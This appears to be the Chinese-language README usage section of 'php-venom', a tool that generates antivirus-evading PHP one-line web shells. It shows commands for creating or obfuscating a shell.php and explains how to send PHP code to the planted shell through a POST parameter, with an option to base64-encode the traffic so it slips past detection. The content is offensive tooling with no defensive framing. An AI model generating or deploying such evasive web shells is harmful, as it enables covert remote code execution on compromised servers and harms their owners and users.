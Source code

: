 
## 使用方法
```
python3 php-venom-3.3.py    //生成免杀一句话

python3 php-venom-3.3.py shell.php   //对同目录下shell.php进行免杀处理，结果保存在shell.php.bypass.php
```
   
 ## 3.x 使用说明：
 
 是否传入id参数决定是否把流量编码
 
 ```
http://www.xxx.com/shell.php  
POST: mr6=phpinfo();  //与普通shell相同

http://www.xxx.com/shell.php?id=xxx(xxxx随便修改)
POST: mr6=cGhwaW5mbygpOwo=  //payload的base64编码

```

 

